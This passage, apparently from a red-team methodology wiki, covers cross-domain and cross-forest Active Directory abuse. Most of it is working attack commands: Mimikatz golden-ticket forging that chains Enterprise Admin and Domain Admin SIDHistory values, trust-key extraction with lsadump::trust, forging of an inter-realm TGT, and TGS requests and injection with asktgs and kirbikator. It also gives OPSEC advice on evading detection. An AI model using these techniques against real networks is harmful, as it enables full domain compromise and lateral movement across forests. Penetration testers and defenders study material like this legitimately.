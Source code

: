 #### **Advanced Inter-Realm Execution Techniques**
```powershell
# Multi-hop SIDHistory chaining
# Step 1: Extract SIDHistory from high-privilege objects
$highValueObjects = Get-DomainObject -Properties sidhistory | Where-Object {
    $_.sidhistory -like "*S-1-5-21-*-519" -or  # Enterprise Admins
    $_.sidhistory -like "*S-1-5-21-*-512"      # Domain Admins
}

# Step 2: Create tickets with multiple SIDHistory values
$sidHistoryList = $highValueObjects | ForEach-Object {$_.sidhistory} | Select-Object -Unique
$sidHistoryString = ($sidHistoryList | ForEach-Object {$_}) -join ","

# Step 3: Forge ticket with multiple SIDHistory values
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:source.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /sids:'$sidHistoryString' /krbtgt:KRBTGT_HASH /ptt"'
```

### Notes
- Requires appropriate privileges to extract trust keys and perform DCSync.
- OPSEC: High detection risk; pace actions and limit scope.
- SIDHistory manipulation can bypass cross-forest security controls.
- Monitor for unusual SIDHistory values and cross-forest access patterns.

---

## ⚔️ Execution

### Cross-Domain/Forest Abuse (SIDHistory, Inter-Realm TGT)
```powershell
# Extract trust keys / enumerate trusts (see Remediation Plan/advanced)
Invoke-Mimikatz -Command '"lsadump::trust /patch"'

# Forge inter-realm TGT to target forest
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:src.local /sid:<srcSID> /rc4:<trustKey> /service:krbtgt /target:target.local /ticket:C:\temp\interrealm.kirbi"'

# Request TGS in target forest
.\asktgs.exe C:\temp\interrealm.kirbi CIFS/dc.target.local
.\kirbikator.exe lsa .\CIFS.dc.target.local.kirbi

# Optional: operate with SIDHistory path if present (group mapping/ForeignSecurityPrincipal)
Get-DomainObject -Domain target.local | ? {$_.objectclass -match 'foreignSecurityPrincipal'}
```
- See detection in `11_Detection_Blue_Team.md`; OPSEC in `12_Detection_Red_Team.md`.

---

[Prev: 29_LDAP_Injection.md](./29_LDAP_Injection.md) | [Up: Index](./00_Enumeration_Index.md) | [Hub](./00_Methodology_Hub.md) | [Next: 31_Detection_Index.md](./31_Detection_Index.md)

---
